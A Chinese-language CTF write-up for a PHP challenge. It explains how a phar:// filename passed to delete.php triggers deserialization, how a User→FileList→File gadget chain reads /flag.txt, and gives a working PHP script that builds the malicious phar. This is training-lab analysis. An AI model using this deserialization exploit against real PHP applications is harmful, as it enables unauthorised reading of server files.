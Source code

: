 

这里由于`download`中有`ini_set("open_basedir", getcwd() . ":/etc:/tmp");` 限制, 无法读取文件

所以这里利用`delete.php`

这里如果`POST`传的`filename`参数为`phar://xxx` 这里`xxx`是我们上传好的一个`phar`文件, 第17行的`open($filename)`处就会触发反序列化. 

再换个角度看, 我们最终的目的是通过`File`类的`close`方法来读取`/flag.txt`, 那么在我们构造类对象的时候, `File`类的这个对象的`Filename`属性的值就得是`'/flag.txt'`

然后如何触发`File`类的`close`方法呢, 这里注意到`FileList`类存在`__call`方法,这个方法会在调用一个本类不存在的方法时被调用

而这里在`FileList`类`__call`方法中, 会让其`files`中(这个属性是一个列表,里面存储了若干`File`类的对象)每个`file`对象来调用这个不存在的方法`__call($func, $args)`这里的参数`func`就是这个被调用的本类不存在的方法

然后`__call`方法还会将每个`file`对象的执行结果存入`result`中(89行)

在`FileList`类的`__destruct()`方法中, 会将`result`中的内容显示出来

那么我们就需要让`FileList`类的对象来调用`close()`方法,这里在`user`类中有:

```
    public function __destruct() {
        $this->db->close();
    }
```

这里的`db`本来是用来操作数据库的,那么我们可以把 `user`的`db`属性指定为一个`FileList`类的对象,这样当这个`user`类的一个对象被反序列化并执行上面的 `__destruct()`时, 它实际上就让它内部的这个`FileList`类的对象执行了`close`方法

综上, `user`为最外层的类,也就是直接被`phar`反序列化的类,那么现在就可以着手构建这个`phar`文件了:

```php
<?php

class User {
    public $db;
}
class File {
    public $filename;
}
class FileList {
    private $files;
    public function __construct() { 
        $file = new File();
        $file->filename = "/flag.txt";
        $this->files = array($file);
    }
}
$a = new User();
$b = new FileList();
$a->db = $b;
//构建phar文件:
$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($a);
$phar->addFromString("test.txt", "aaaaa");
$phar->stopBuffering();
?>
```

